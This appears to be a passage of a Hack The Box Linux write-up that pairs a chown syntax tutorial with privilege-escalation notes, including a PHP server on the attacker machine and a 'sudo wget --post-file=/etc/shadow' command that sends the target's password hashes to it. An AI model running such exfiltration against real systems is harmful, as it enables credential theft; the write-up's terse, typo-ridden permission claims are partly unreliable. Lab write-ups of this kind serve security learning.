 ## How to Use `chown`

Before going into how to use the `chown` command, let’s start by reviewing the basic syntax.

The `chown` command expressions takes the following form:

```sh
chown [OPTIONS] USER[:GROUP] FILE(s)
```

`USER` is the user name or the user ID (UID) of the new owner. `GROUP` is the name of the new group or the group ID (GID). `FILE(s)` is the name of one or more files, directories or links. Numeric IDs should be prefixed with the `+` symbol.

-   `USER` - If only the user is specified, the specified user will become the owner of the given files, the group ownership is not changed.
-   `USER:` - When the username is followed by a colon `:`, and the group name is not given, the user will become the owner of the files, and the files group ownership is changed to user’s login group.
-   `USER:GROUP` - If both the user and the group are specified (with no space betwen them), the user ownership of the files is changed to the given user and the group ownership is changed to the given group.
-   `:GROUP` - If the User is omitted and the group is prefixed with a colon `:`, only the group ownership of the files is changed to the given group.
-   `:` If only a colon `:` is given, without specifying the user and the group, no change is made.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/50.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/51.jpg)

- umask 555 = Inverse of 777
- any file touch have a permisiion of 222
- so all the files setup for webserver in kali  machine
 run php server 

```php
php -S 10.10.14.2:8001 -t
```

- choose 8001 bcz it is not a privileged box .
- this is most proably like a python server .
- It execute code on php and all the things .

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/52.jpg)

- send request to kali machine via file post request ; file name shadow 
- It says uploaded

```sh
sudo wget --post-file=/etc/shadow 10.10.14.2:8001/upload.php?filename=shadow 
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/53.jpg)

- Upload successful
